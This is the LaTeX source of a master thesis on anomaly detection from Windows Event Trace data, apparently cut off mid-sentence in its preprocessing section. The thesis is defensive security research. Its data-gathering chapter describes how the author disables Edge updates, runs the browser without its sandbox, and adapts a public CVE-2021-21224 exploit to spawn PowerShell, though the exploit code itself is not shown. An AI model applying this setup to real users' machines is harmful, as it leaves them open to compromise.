% !TeX spellcheck = en_GB
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%                                        %
%      Master thesis LaTeX template      % 
%                                        %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%



\documentclass[a4paper,twoside,12pt]{book}
\usepackage[utf8]{inputenc}                                      
\usepackage[T1]{fontenc}  
\usepackage{amsmath,amsfonts,amssymb,amsthm}
\usepackage[polish,british]{babel} 
\usepackage{indentfirst}
\usepackage{lmodern}
\usepackage{graphicx} 
\usepackage{hyperref}
\usepackage{booktabs}
\usepackage{tikz}
\usepackage{pgfplots}
\usepackage{mathtools}
\usepackage{geometry}
\usepackage[page]{appendix} 

\usepackage{setspace}
\onehalfspacing


\frenchspacing

\usepackage{listings}
\lstset{
	language={},
	basicstyle=\ttfamily,
	keywordstyle=\lst@ifdisplaystyle\color{blue}\fi,
	commentstyle=\color{gray}
}

%%%%%%%%%

 

%%%%%%%%%%%% FANCY HEADERS %%%%%%%%%%%%%%%

\usepackage{fancyhdr}
\pagestyle{fancy}
\fancyhf{}
\fancyhead[LO]{\nouppercase{\it\rightmark}}
\fancyhead[RE]{\nouppercase{\it\leftmark}}
\fancyhead[LE,RO]{\it\thepage}


\fancypagestyle{onlyPageNumbers}{%
   \fancyhf{} 
   \fancyhead[LE,RO]{\it\thepage}
}

\fancypagestyle{PageNumbersChapterTitles}{%
   \fancyhf{} 
   \fancyhead[LO]{\nouppercase{\it\rightmark}}
   \fancyhead[RE]{\nouppercase{\it\leftmark}}
   \fancyhead[LE,RO]{\it\thepage}
}

 

% some issues...

\newcounter{PagesWithoutNumbers}

\newcommand{\hcancel}[1]{%
    \tikz[baseline=(tocancel.base)]{
        \node[inner sep=0pt,outer sep=0pt] (tocancel) {#1};
        \draw[red] (tocancel.south west) -- (tocancel.north east);
    }%
}%

\newcommand{\MonthName}{%
  \ifcase\the\month
  \or January% 1
  \or February% 2
  \or March% 3
  \or April% 4
  \or May% 5
  \or June% 6
  \or July% 7
  \or August% 8
  \or September% 9
  \or October% 10
  \or November% 11
  \or December% 12
  \fi}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Helvetica font macros for the title page:
\newcommand{\headerfont}{\fontfamily{phv}\fontsize{18}{18}\bfseries\scshape\selectfont}
\newcommand{\titlefont}{\fontfamily{phv}\fontsize{18}{18}\selectfont}
\newcommand{\otherfont}{\fontfamily{phv}\fontsize{14}{14}\selectfont}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\newcommand{\Author}{Maksym Brzęczek}
\newcommand{\Supervisor}{Błażej Adamczyk, PhD}
\newcommand{\Consultant}{Name Surname, PhD}
\newcommand{\Title}{Security anomaly detection based on Windows Event Trace}
\newcommand{\Polsl}{Silesian University of Technology}
\newcommand{\Faculty}{Faculty of Automatic Control, Electronics and Computer Science}


\begin{document} 
	
%%%%%%%%%%%%%%%%%%  Title page %%%%%%%%%%%%%%%%%%% 
\pagestyle{empty}
{
	\newgeometry{top=2.5cm,%
	             bottom=2.5cm,%
	             left=3cm,
	             right=2.5cm}
	\sffamily
	\rule{0cm}{0cm}
	
	\begin{center}
	
\includegraphics[width=29mm]{polsl}
	\end{center} 
	\vspace{1cm}
	\begin{center}
	\headerfont \Polsl
	\end{center}
	\begin{center}
	\headerfont \Faculty
	\end{center}
	\vfill
	\begin{center}
	\titlefont Master  thesis
	\end{center}
	\vfill
	
	\begin{center}
	\otherfont \Title\par
	\end{center}
	
	\vfill
	
	\vfill
	 
	\noindent\vbox
	{
		\hbox{\otherfont author: \Author}
		\vspace{12pt}
		\hbox{\otherfont supervisor: \Supervisor}
		\vspace{12pt}
		\hbox{\otherfont consultant: \Consultant}
	}
	\vfill 
 
   \begin{center}
   \otherfont Gliwice,  \MonthName\ \the\year
   \end{center}	
	\restoregeometry
}
  

\cleardoublepage
 

\rmfamily
\normalfont


%%%%%%%%%%%% statements required by law and Dean's office %%%%%%%%%%
\cleardoublepage

\begin{flushright}
załącznik nr 2 do zarz. nr 97/08/09 
\end{flushright}

\vfill  

\begin{center}
\Large\bfseries Oświadczenie
\end{center}

\vfill

Wyrażam  zgodę / Nie wyrażam zgody*  na  udostępnienie  mojej  pracy  dyplomowej / rozprawy doktorskiej*.

\vfill

Gliwice, dnia {\selectlanguage{polish}\today}

\vfill

\rule{0.5\textwidth}{0cm}\dotfill 

\rule{0.5\textwidth}{0cm}
\begin{minipage}{0.45\textwidth}
{\begin{center}(podpis)\end{center}}
\end{minipage} 

\vfill

\rule{0.5\textwidth}{0cm}\dotfill 

\rule{0.5\textwidth}{0cm}
\begin{minipage}{0.45\textwidth}
{\begin{center}\rule{0mm}{5mm}(poświadczenie wiarygodności podpisu przez Dziekanat)\end{center}}
\end{minipage}


\vfill

* podkreślić właściwe

 


%%%%%%%%%%%%%%%%%%%%%  
\cleardoublepage

\rule{1cm}{0cm}

\vfill  

\begin{center}
\Large\bfseries Oświadczenie promotora
\end{center}

\vfill

Oświadczam, że praca „\Title” spełnia wymagania formalne pracy dyplomowej magisterskiej.

\vfill



\vfill

Gliwice, dnia {\selectlanguage{polish}\today}

\rule{0.5\textwidth}{0cm}\dotfill 

\rule{0.5\textwidth}{0cm}
\begin{minipage}{0.45\textwidth}
{\begin{center}(podpis promotora)\end{center}}
\end{minipage} 

\vfill
 
 

\cleardoublepage


%%%%%%%%%%%%%%%%%% Table of contents %%%%%%%%%%%%%%%%%%%%%%
\pagenumbering{Roman}
\pagestyle{onlyPageNumbers}
\tableofcontents

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\setcounter{PagesWithoutNumbers}{\value{page}}
\mainmatter
\pagestyle{PageNumbersChapterTitles}

%%%%%%%%%%%%%% body of the thesis %%%%%%%%%%%%%%%%%

\chapter{Introduction}

This chapter presents the problem that the project tries to solve and describes the scope 
of the thesis. It also describes the document structure.



\section{Introduction into the problem domain}


In todays world information technology (IT) is present in almost every aspect of our lives. 
It is constantly being utilised by goverments, military, organisations, financial institutions,
univiersities and other businesses to process and store enormous amounts of data as well as 
transmit it between manny computers around the globe. Any disruption to the work of those 
systems or unauthorized access to the stored information may refult in significant losses.
Those may include financial and geopolitical repercussions but also direct losses of human
lives in situations where the target of a attack is for example a hospital. Since the inception
and propagation of IT the security of the systems in question is growing concern of corporations, 
countries and even inviduals. Because of the constant arms race between adversaries attacking 
and defending IT systems, anyone who is not proactively handling matters concerning cyber security 
is instantly falling behind. \cite{bib:articleImportanceOfCybersecurity} 

A typical attack on a IT system may include exploitation of a design 
flaw to gain increased access. The offencive actions can target manny different layers of 
abstraction present in current IT systems. Such situtations are extreamaly hard to discover 
and guard against due to the fact that they were not forsen in the design process. How to guard 
agains something that is not known to be possible. There are many approaches that aim to 
increase the security of IT systems. Some popular ones include fingerprinting malware, 
monitoring software for specific suspicious actions or for know 
malitious values. Those approaches can be very effective but in some cases their 
failures are inevitable.

To mitigate this problem multiple studies has been done that attempt to utilise the methods of
anomaly detection known from the data science fields in order to identify the misbehaviours of 
the monitored IT systems which could allow for an early detection of novel 0-day based intrusions.
The past investigations of the problem has focused on analysis of the infromation obtained from 
multiple sources like system commands sequences \cite{bib:lane1997application} or system calls 
\cite{bib:rsvm}. There are however still manny mechanisms present in modern operating systems 
that gather sygnificant quantities of information about inner workings of the processes that remain
untapped. 

The objective of this thesis is to utilise the Event Trace for Windows (ETW) mechanism and it's 
capability to access low level debugging data on the Microsoft operating systems to attempt
security anomaly detection. The main focus is placed on identification of 0-day binary process 
exploitation leading directly to arbitrary code execution and malicious program spawning. While 
taken under consideration in light of gathered information, other attack types like for example 
DLL hijacking are not in scope of this work.

\section{Authors contribution}

Author of the thesis has simulated a 0-day exploitation attack on a web browser and gathered 
the data generated in the process via the Event Trace for Windows mechanism. This process 
required establishing of the information gathering framework. The acquired 
information was processed to identify and extract features that could be utilised in an anomaly detection
methods. This procedure included analysis of the available information from a statistical point of view
as well as a development of some novel data encoding approaches. Gathered 
features were tested with known classification algorithms and the results of the experiments were thoroughly analysed.

Based on the performed actions a conclusion were formed about the usefulness of specific tested features 
and of the ETW data
in potential anomaly detection based security system. Additionally further research directions
had been established and specified.

\section{Chapters description}

This thesis is constructed with following chapters.
\begin{itemize}
	\item Introduction - Describes the domain of the researched problem and the basis for the 
	topic of the thesis. Highlights the the contributions of the author. Provides overview of the 
	chapters present in this document.
	\item Problem analysis - Theoretical indepth study of the work required to achive the thesis
	goal. Investigation of known literature related to the researched topic. Description of the 
	previous known solutions of the problem. 
	\item Security anomaly detection based on Windows Event Trace - Full description of the proposed
	solutions and their theoretical analysis. Rationalization of the employed algorithms, methods 
	and tools.
	\item Data gathering - Thorough explanation of the performed data gathering process and of 
	the obtained results.
 	\item Experiments - Full description of all experiments performed in the process of thesis 
 	research. Analysis of the outcomes.
	\item Summary - Synopsis of the performed work. Summary of all the resulting conclusions and 
	possible future research directions. Analysis of the thesis goal in light of the obtained
	results. 
\end{itemize}

\chapter{Problem analysis}

This chapter is a indepth overview of the problem related infrormation available in the public 
litelature and resources. Additionally it contains analysis of complications possibly encountered
durring the realisation the required work.  

\section{Known problems}
There are multiple problems that need to be solved to form conclusions to the questions stated in the
problem definition.
There are no commonly available security focused datasets sourced from the Event Trace for 
Windows mechanism. The data used in the thests has to be generated and gathered as part of the
performed work. The information processed by the ETW is very broad and can be additionally extended 
by tapping into the log sources of specific executables.
A analysis has to be done in order to identify the features that can prove useful in the security
anomaly detection scenarios. 

Gathered data might require preprocessing that will adjust its form to the formats accepted in the
current classification methods and algorithms. Some types of information present in the computer 
generated data set might require utilisation of novel processing and encoding frameworks or 
development of new specific approaches to allow for thier utilisation.  

\section{Literature research}

The previous attempts of implementing a security anomaly detection frameworks depicted in the 
literature take manny different approaches. Some of those include analysis of specific sequences
present in terminal commands \cite{bib:lane1997application} or system calls \cite{bib:forest}. 

Some researchers attempt to implement novel custom classification methods. An example of such 
approach is depicted in "An Application of Machine Learning to Anomaly Detection" by Terran Lane 
and Carla E. Brodley\cite{bib:lane1997application}. The authors gather historical sequences of
terminal commands and their corresponding utilised command flags. The obtained vectors are used
to calculate similarity measures with the incoming data. Those values are utilised to identify 
whether the user interacting with the system was previously profiled by the algorithm.
Other approaches classify available data with well known algorithms like various Support Vector 
Machines (SVM) and K-means classification like Wenjie Hue, Yihua Liao and V Rao Vemuri in "Robust Support Vector 
Machines for Anomaly Detection in Computer Security" \cite{bib:rsvm}. Their work compares the 
performance of Robust Support Vector Machines (RSVM), Support Vector Machines and K-means classifiers
on the data from 1998 DARPA Intrusion Detection System Evaluation program. Obtained results
prove the superiority of RSVM's in the tested use cases. 

SVM is a kernel-based method for binary classification problem which "aims at constructing 
the optimal middle hyperplane which induces the largest margin. It is proven that in a linearly 
separable case, this middle hyperplane offers the high accuracy on universal datasets". This 
approach however has reduced performance due to the fact that " real world datasets often contain 
overlapping regions and therefore, the decision hyperplane should be adjusted according to the 
profiles of the datasets". This problem is addressed in the improved version of the algorithm
where "by setting the value of the adjustment factor properly, RSVM can handle well the datasets 
with any possible profiles"\cite{bib:svmandrsvm}.

Some researchers try to perform security
data classification with novel anomaly detection methods like autoencoders. This approach was
attempted for example in "Anomaly Detection on the Edge" by Joseph Schneible and Alex Lu
\cite{bib:autoencoderDist}. This method learns to compress and decompress the available feature 
vectors with the use of artificial neural vectors. Anomaly is detected when the distance 
between the input and output of the neural net is higher than the specified threshold.
Neural network based approaches require large amounts of high quality training data.  



% \begin{itemize}
% \item problem analysis, problem statement
% \item state of the art, literature research (all sources in the thesis have to be referenced \cite{bib:article,bib:book,bib:conference})
% \item description of known solutions, algorithms
% \item location of the thesis in scientific domain
% \item The title of this chapter is similar to the title of the thesis.
% \end{itemize}

\chapter{Security anomaly detection based on Windows Event Trace}

This chapter contains indepth description of the solutions proposed for the thesis problems. 

\section{Data gathering}
To achieve the goal of the thesis a dataset based of the Windows Event Trace has to 
be created. The ETW framework can be accessed and utilised via API available in multiple
programing languages like C/C++\cite{bib:etwcpp} or C\#\cite{bib:etwcsharp}. The 
data gathering process should however be performed with known and tested solutions to
minimise the chance of data corruption. The default file format used by ETW for storing 
information is a Event Trace Log (ETL). This archive type is not very well documented in 
the resources available on the internet. A additional tool might be required in order to 
transform gathered information to commonly known data storing formats.

Event Trace for Windows handles very granular process and operating system events.
Because of that when configured to gather all possible types of information ETW can generate
large quantities of information. All known tools gather data in rotating memory buffer 
before saving it to hard drive. Those two factors combined with limited memory resources 
available while performing the data gathering process limit the types of information analysed 
in the thesis. 



\section{Analysed data}
Because of the present limitations all of the available information has been narrowed down and 
initial analysis has been performed. The resulting anomaly detectuion leads and initial 
results are presented in this section.

\subsection{Dynamic link libraries}

When attempting to detect misbehaviour of a specific program or its subprocesses a ability to 
classify binaries by their general purposes could prove very useful. Most methodologies used to 
compare executable files focus on their binary structures and attempt to find similarities to 
existing malware samples \cite{bib:malwclass}. This approach, while very useful in detection of 
iterations of malicious software, is useless when it comes to creating multidimensional spaces 
based on their functionality. In this thesis an attempt was made to establish a novel approach of 
processes analysis by their imported Dynamically Linked Libraries. A DLL is a library that 
contains code and data that can be used by more than one program at the same time. For example, 
in Windows operating systems, the Comdlg32 DLL performs common dialog box related functions. Each 
program can use the functionality that is contained in this DLL to implement an Open dialog box. 
It helps promote code reuse as well as efficient memory usage \cite{bib:dll}. Those code bundles provide 
specific sets of functionality and are commonly used in all programming languages. Possibly 
overlapping sets of loaded modules from two given processes can indicate their similar purpose. 

\subsection{Subprocess paths}

Initial empirical analysis of the impact of the exploit on the behavior of the targeted browser was 
performed with the use of Windows Performance Analyzer (WPA).  Most browsers give a 
possibility of spawning a new process for example by opening of a downloaded file in 
adequate software. This functionality makes it harder to detect a possible ongoing exploitation process. 
Upon a closer look at the way that the spawning action is performed it was possible to establish that proper 
sub process is spawned from the main browser program as shown in the picture \ref{fig:WPAnormal}.

\begin{figure}
	\centering
	
\includegraphics{images/wpa_normal}
	\caption{Example process tree of Microsoft Edge}
	\label{fig:WPAnormal}
 \end{figure}

The exploit however generates the new child process from the one corresponding to the browser tab 
in which the exploit was executed like in the picture \ref{fig:WPAexploit}. 

\begin{figure}
	\centering
	
\includegraphics{images/wpa_exploit}
	\caption{Process tree of exploited Microsoft Edge}
	\label{fig:WPAexploit}
 \end{figure}

Patterns like this might be possible to learn and detect. The obtained data can be transformed
to create a new feature called "Process Path". It is a string based variable containing names 
of the consecutive child processeses starting from the root of the system process tree leading to the 
process for which the feature is constructed. All names are divided by any arbitrary separator. 

Encoding of such variables like directory paths is not a well researched topic and there is no 
common consensus on how they should be approached. There are however some novel approaches to 
handling dirty categorical data. An example of how to handle data like that was featured in the 
"Similarity encoding for learning with dirty categorical variables" by Patricio Cerda,  Ga{\"e}l 
Varoquaux and Bal{\'a}zs K{\'e}gl \cite{bib:dirtycat}. Where most of the literature on encoding categorical variables 
relies on the idea that the set of categories is finite, known priorly, and composed of mutually 
exclusive elements, the authors of this paper propose a new approach called similarity encoding. 
It is based on calculation of similarities between string values. Instead of a binary column 
indicating whether a specific category was set in the input value, a real number indicates how 
distant it is from the specific previously chosen encoding column. It is a generalisation of the 
OneHot method \cite{bib:dirtycat}. The python implementation of this approach utilised in this thesis 
can be found under \url{https://dirty-cat.github.io/stable/}.

\subsection{Average processor utilisation}

This feature represents how computationally expensive the given process is. This information can possibly 
be utilised to detect both the processes that are not usually spawned by the one being monitored as well as
inlier processes that missbehave due to the performed exploitation. Because this feature is 
strictly numerical, it is a lot easier to analyse than the qualitative values like the process
paths and the loaded DLL's. It is also a lot less impacted by the actions of the normal user when
compared to the process lifespan values from which it is derived.

% \subsection{Process lifespan}
\subsection{Process lifespan and CPUMsec}

The process lifespan is the ammount of elapsed time from the from the process spawn to its
termination or the end of data gathering process. Even though the tested average processor utilisation 
is derived from this data, those values might not necessary convey the same information. In some cases
the exploitation process performed on the monitored software may result in a premature program
closure or its prolonged execution due to the program hanging. Such behaviour may manifest in the
processor utilisation but this does not always has to be the case. 

This feature however has a bigger risk of beeing to strongly impacted by the actions of the user. 
Each new tab opened in the browser is a separate process and the amount of time for which it remains
open is highly dependent on many factors. In a single session a user can perform a quick, lasting 
lasting only a couple of seconds search for a correct spelling of a word and read a article for 
an hour. The introduce in the process variance may render this feature unusable or cause it to
require very large quantities of data for proper analysis. Those factors have to be taken 
under consideration in the conducted experiments.

Similar argumentation can be applied the the second component of the average processor utilisation which is
the CPU ocupation timespan known in the gathered data as CPUMsec. For example an above average processor utilisation
resulting from an ongoing exploitation can be hidden by lack of termination commonly known as "program hanging".

\subsection{Exit code}

The program exit code is a numer passed from the child process to its parent. The main purpose 
of such mechanism is passing of the information about the execution results. The returned values
can differ greatly depending on what happens in the monitored software which is a perfect situation
for the thesis purposes. In some cases the return value can also be missing which should be taken 
under consideration.

\section{Omitted features}

Some of the features from the available data were not utilised in the work performed. This includes
the following:
\begin{itemize}
	\item Bitness - This data type indicating the architecture of the running program takes a single value ('64')
	in all the available samples which makes it useless for the purposes of this thesis. Additionally the performed
	work focuses on the detection of a software misbehaviour but not the identification of anomalous software 
	for which this data may be more well suited. Additional research should be performed on the likelihood of the
	parameter change in case of the attack. This would allow to determine if the data should be monitored dispite
	the lack of variance detected in the symulated attacks.
	\item Command Line -  This feature contains multitude of data in a very fuzy form. Its correct utilisation
	requires advanced analysis and possibly development of a custom handling and encoding approach. Due 
	to the restricted timeframe of the thesis this feature has been skipped. Because of the available potential
	of this specific data type it has been outlined in the summary as a future research area.
	\item Id, Id Path and Parent Id - Those values by definition are randomly assigned to each process from the available
	pool. This means that they have no value beyond the identification of the relations between specific programs. 
	\item Start and End time - Such information could be used to identify behaviour patterns of specific users that could possibly help
	in detection of some post exploitation actions. An example scenario would be attempting to detect a anomalous
	working hours like the middle of a night in a given users timezone. This approach however is outside of the 
	scope for this thesis and therefore the start and end time for processes as been omitted.
	\item Name - Those values were rejected because their analysis and blocking is a well known topic. Execution 
	blacklisting of specific programs is a common administrative practice that allows for significant increase
	of the infrastructure security. This approach is however outside of the thesis scope which focuses on the 
	misbehaviour of software that is allowed to run on monitored system.
\end{itemize}

\section{Anomaly detection algorithms}
In the thesis the main anomaly detection algorithm utilised is the One Class Support 
Vector Machine which is a variation on support vector machines. It attempts to minimise 
the radius of the multidimensional hypersphere with the use of Kernel Method \cite{bib:ocsvm}. 
This algorithm is the main anomaly detection utilised in the thesis due to it's ease of
usage. It is also known to be effective in high dimentional spaces and when 
the number of features is greater then the number of samples \cite{bib:svms}. The training process 
does not require significant computational and memory resources when compared to the latest
approaches based on artificial neural networks like autoencoders \cite{bib:autoencoder}. There are
some approaches to training process that can reduce the hardware requirements like for example the distributed architecture
\cite{bib:autoencoderDist}. Their complexity might however shift the focus from the core idea 
of the thesis which is to prove that data from Windows Event Trace can be utilised to detect security
anomalies. Additionally the neural network based approaches require large quantities of well labeled
data which can de very difficoult to generate. In the thesis the detection performed by the One Class SVM 
is tested for multiple 'nu' values which is upper bound on the fraction of training errors and a lower bound of the 
fraction of support vectors\cite{bib:skocsvm}. The kernel utilised in all the tests is 'rbf' with
the gamma parameter set to 'auto'. The detection process is performed 
on a per process basis and focuses mainly on the web browser Microsoft Edge. 

For all anomaly detections performed in the research following parameters were quantified:
\begin{itemize}
	\item Positive (P) - number of samples correctly classified as inliers.
	\item Negative (N) - number of samples correctly classified as outliers.
	\item False positive (FP) - number of samples misclassified as inliers. 
	\item False negative (FN) - number of samples misclassified as outliers.
\end{itemize}

%TODO weryfikacja poprawności poniższego
Those values may be also expressed in percentages. Detection accuracy for example is the ratio
of detected anomalies (Negative) to all marked in the dataset. False positive probability is 
the number of misclassified samples (False negative) divided by the known count of inliers.  

Based on the studied literature one of the well-suited result presentation methods is the Receiver 
Operating Characteristic (ROC) curve which is a plot of the detection accuracy against the false 
positive ratio. In this document the detected outliers are classified as negative samples. Because 
of that the receiver operating characteristic curves are ploted as true negative ratio agains the 
false negative. The proboability of false anomaly detection is crucial because it may cause overload
on of the response teams and mechanisms which in turn may result in delayed response or omission
of response to real exploitation alert. All anomaly detection performance analysis in the thesis is focused
on those indicators. The ROC curves may however be corrupted by the small available sample size 
which negatively impacts the performance analysis. All the graphs in this work which present
the receiver operating characteristic curve contain a diagonal dashed line representing the
performance of random anomaly classification. This approach allows to easily identify if the obtained
performance indicates utility of the tested features.


% \begin{itemize}
% \item solution to the problem proposed by the author of the thesis
% \item theoretical analysis of proposed solutions
% \item rationale of applied methods, algorithms, and tools
% \end{itemize}

\chapter{Data gathering}
This chapter describes the process of data gathering which was subsequently utilised in the experiments and 
analysed in this thesis. This procedure is necessary due to the lack of commonly available 
datasets that would fit all of the necessary requirements. 

\section{Exploit emulation}

The data used in the thesis was gathered on a Windows 10 Enterprise Evaluation operating 
system, version 20H2, build 19042.1052. The Microsoft Edge web browser used to simulate 
the 0-day exploit attack was artificially halted in the version 84.0.522.52 (64-bit). 
Automatic updates were interrupted by changing the name of the binary responsible for 
keeping the software up to date. It is commonly located under 
"C:\textbackslash Program Files (x86)\textbackslash Microsoft\textbackslash 
EdgeUpdate\textbackslash MicrosoftEdgeUpdate.exe". 
The attack simulated in the data set takes advantage of the vulnerability CVE-2021-21224. It 
targets a type confusion flaw in the V8 JavaScript engine. This allows the attacker to 
execute arbitrary code inside a sandbox via a specially crafted HTML page \cite{bib:CVE21224}. 
The vulnerability affects the Google Chrome browser prior to the version 90.0.4430.85 as 
well as Microsoft Edge prior to 90.0.818.41 \cite{bib:edgeRelease}. Some reports indicate 
that this vulnerability might have been used by the state backed north korean agents to 
attack security researchers and gain insight into their work. The exact method of
exploitation is not known since the abuse of CVE-2021-21224 does not not allow to bypass 
the builtin Chromium sandbox. There are also reports of Russian government-backed actors 
using CVE-2021-1879 to target western european government officials \cite{bib:googleBlog}. 
This method might have been chained with other non-public vulnerabilities in order to 
perform a successful attack. To simulate such conditions the browser used in testing was 
run with the "--no-sandbox" flag which disables the builtin safeguard.

The sample of the exploit code was obtained from a public GitHub repository 
\cite{bib:sampleExploit} and its code can be found in the listing \lstinline|"exploit.html"|. 
It was adjusted to result in the spawning of the PowerShell.exe process. Execution of this 
cross-platform task automation solution made up of a command-line shell, a scripting 
language, and a configuration management framework is usually one of the first steps in 
the process of gaining persistent access to a given windows machine. Some actors implement advanced 
code and logic into the exploit. This is however very uncommon due to the high complexity 
of such a task.

All the information was gathered in a context of a single user due to restricted available
resources and to simplify the task of anomaly detection. Fullfilling the goal of the thesis
even in those conditions can be a viable proof of concept which would warrant further 
research in wider domain.  

\section{Logging}

The initial data was gathered by the PerfView.exe tool which is "a free performance-analysis 
tool that helps isolate CPU and memory-related performance issues. It is a Windows tool, 
but it also has some support for analysing data collected on Linux machines. It works for 
a wide variety of scenarios, but has a number of special features for investigating 
performance issues in code written for the .NET runtime"\cite{bib:PerfView}. It is capable of 
tapping into many ETW logging sessions and storing the gathered data into output files. It also 
has functionality that helps in working with the saved information. Main purpose of PerfView 
in the thesis was data gathering and preprocessing. The software is open source.
It was configured to gather only the "Kernel Base" information. The additional data sources 
were disabled due to the large quantity of data being generated and not sufficient memory 
available for the processing. Example PerfView configuration can be found in figure 
\ref{fig:PerfViewConfig}. 

\begin{figure}
	\centering
	
\includegraphics[scale=0.55]{images/perf_config}
	\caption{Example PerfView logging configuration}
	\label{fig:PerfViewConfig}
 \end{figure}

The resulting information is saved to a Microsoft Event Trace Log File (.etl) which can be 
processed in multiple ways. PerfView has a builtin function of extracting the information 
gathered about the executed processes and their loaded dll's to Excel executable installed 
on the system. This can be performed by opening the desired file in the builtin explorer 
and selecting its "Processes" option. This opens a separate window containing information 
about processes executed during data gathering and two possible export options - 
"View Process Data in Excel" and "View Process Modules in Excel". The Excel executable 
opened by choosing either of the options allows to save the data to multiple easily 
accessible file formats like .csv, .xml or xlsx. Loaded data and the export options are 
presented in figure \ref{fig:PerfViewexport}.

\begin{figure}
	\centering
	
\includegraphics[scale=0.55]{images/perf_export}
	\caption{PerfView data export}
	\label{fig:PerfViewexport}
 \end{figure}

Resulting from the described process are two files containing correlated information. By 
default Excel labels those files by including identifying suffixes in their names. The 
first file is marked by the string "processesSummary" and contains general information 
about the processes which include following columns:
\begin{itemize}
	\item Name - Process name - The name of the process, usually identical to the binary 
	file name.
	\item ID - Process Id - The integer number used by the kernel to uniquely identify 
	an active process \cite{bib:MicrosoftWinInternals}.
	\item Parent\_ID - Parent Process Id - The Process Id of the process that spawned the 
	correlating one.
	\item Bitness - Whether the process executable is created in 32 or 64 bit architecture.
	\item CPUMsec - Amount of milliseconds in which the process has occupied the processor. 
	\item AveProcsUsed - Average processor utilisation calculated by dividing the amount
	of time when process has ocupied the processor by the total process lifespan. 
	\item DurationMSec - The duration of the process life stored in milliseconds.
	\item StartMSec - The start time of the process stored in milliseconds.
	\item ExitCode - Integer value returned after the process execution. Commonly known as 
	exit code.
	\item CommandLine - The command used to spawn the process.
\end{itemize}

Second output file commonly contains the string "processesModule" in its name. Its contents
are the modules (DLL's) loaded by a specific process and information about them. Example 
output file contains following data columns:
\begin{itemize}
	\item ProcessName - Name of the process which loaded the corresponding DLL
	\item ProcessID - Id of the process which loaded the corresponding DLL
	\item Name - Name of the loaded DLL
	\item FileVersion - Version of the loaded DLL
	\item BuildTime - Date when the DLL file was build
	\item FilePath - The location of the DLL file on the host system
\end{itemize}

Data gathering was performed on a simulated host usage to acquire inlier data samples required 
for the algorithm training process. The tasks performed in the process 
included consumption of online media (eg. youtube.com, netflix.com), office work on cloud 
based services (eg. Google Docks, Gmail ), social media browsing (eg. facebook.com, 
twitter.com), downloading files and other web browsing. Downloaded files were opened 
directly from the browser. The data was gathered on the span of multiple user sessions.

\section{Preprocessing}

Gathered data was initially analysed and processed to fit different machine learning 
frameworks and to simplify its manual analysis. This operation was complicated by the 
reuse of process id's in the operating system. In order to identify which of the processes 
corresponding to the parent id is the true ancestor a additional check is performed based 
on the time of spawn and the interval in which the possible parent was alive. This algorithm 
allows the creation of a spawning process path that tracks the ancestors of a given process, 
usually to one of multiple root programs in the operating system. The described procedure
required suplementation of the data with the process end time which is a sum of process
start time and its lifespan. 

Additionally a process of OneHot encoding was performed on the loaded DLL's. The data from 
